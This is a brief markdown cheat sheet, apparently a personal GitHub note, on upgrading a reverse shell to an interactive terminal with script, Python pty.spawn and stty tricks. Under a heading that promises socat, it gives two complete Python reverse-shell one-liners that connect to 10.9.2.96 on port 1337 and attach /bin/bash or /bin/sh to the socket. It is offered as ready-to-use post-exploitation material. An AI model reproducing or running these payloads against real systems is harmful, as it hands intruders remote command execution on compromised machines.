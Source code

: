 # How to upgrade reverse shell :
## Method 1 : upgrade netcat
```bash
SHELL=/bin/bash script -q /dev/null
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo
fg
reset
Terminal type? xterm
```
Using netcat listener and you want shell with terminal command like <kbd>&#8593;</kbd> key to go back to history command, <kbd>Ctrl</kbd>+<kbd>c</kbd>  to stop a command instead of netcat listener, etc.
## Method 2 : spawn a TTY
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo
fg
export TERM=xterm
```
To fool commands like `su username`when you need a proper terminal to execute them. 
## Method 3 : socat
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

python3 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.96",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.96",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTExNzA0Njk4NTIsMjM1MjQ1MjMyLDE0Nj
E3NDQwNiwxOTM4MjExODQ2LC0xNDI1MTQwOTcsMTkxMzU5MjE5
MV19
-->